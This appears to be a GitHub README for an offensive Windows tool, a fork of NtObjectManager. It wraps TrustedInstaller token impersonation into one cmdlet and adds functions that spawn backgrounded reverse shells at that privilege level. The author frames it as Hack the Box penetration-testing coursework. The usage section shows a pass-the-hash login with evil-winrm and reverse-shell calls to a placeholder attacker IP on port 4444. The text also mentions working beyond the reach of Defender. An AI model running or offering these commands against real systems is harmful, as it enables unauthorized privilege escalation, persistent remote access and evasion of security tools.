 # Evil-NTObjectManager: Fork of NtObjectManager from Google Project Zero with Additional Privilege Escalation Functionality

While going through the [Hack the Box Academy](https://academy.hackthebox.com) Penetration Tester Role Path (the course material for Hack the Box's all-powerful Certified Penetration Testing Specialist, or CPTS, certification), one of things I was tasked with doing was using the SeImpersonatePrivilege, SeDebugPrivilege, and other such escalation vectors within Windows targets to quickly and efficiently break out of restricted environments and find flags hidden in the target systems. In the Windows Privilege Escalation module, one of the ways in which this can be achieved is through manipulation of Windows services using the `sc.exe` binary, i.e. with the `binpath=` argument. However, there are a few caveats to this approach:

1. The process is very destructive and thus easily detectable by countermeasures that the target may have in place.
2. If you use `sc` to load, say, a Metasploit payload, it's not going to last for very long; you need to spawn a secondary shell quickly before the service start attempt times out.
3. If a service is already running, you need to stop it before you can configure it.

Knowing this, I thought to myself, "What core Windows services are stopped by default, have high privileges, and are easy to impersonate?" That's when I remembered that I had previously watched [this John Hammond video](https://youtu.be/Vj1uh89v-Sc?si=my7yy2IFgrFNsdYG) which mentioned one such service: the all-powerful [TrustedInstaller](https://reddit.com/r/Windows10/comments/17m3cyr/how_does_one_become_trustedinstaller/) which has some privileges, such as the ability to delete Windows core components or inject drivers deep into the `C:\Program Files\WindowsApps` directory where even Defender won't have permission to do anything, that even `NT AUTHORITY\SYSTEM` does not have. However, the method that Hammond outlines in the video was for a time a very tedious process that involved typing 7 so sequential commands into the PowerShell console just to grab the permission token. Was, that is, until now.

In this project, I've managed to wrap the entire process of starting TrustedInstaller only to immediately impersonate the token into one cmdlet: `Invoke-TrustedInstaller`. In addition, I've added two additional functions for spawning and fully backgrounding new reverse shells from entirely within the context of the highest privileged Windows service of them all.

## Usage

```bash
evil-winrm -i x.x.x.x -u Administrator -H 'xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx' -s "$PWD/Evil-NtObjectManager"
<SNIP>
*Evil-WinRM* PS C:\> TrustedInstaller.ps1
```

```powershell
Import-Module .\TrustedInstaller.ps1
```

```powershell
Invoke-TrustedInstaller
```

```powershell
Invoke-TIRevShell -IP x.x.x.x -Port 4444
Invoke-TIRevShellTLS -IP x.x.x.x -Port 4444
```
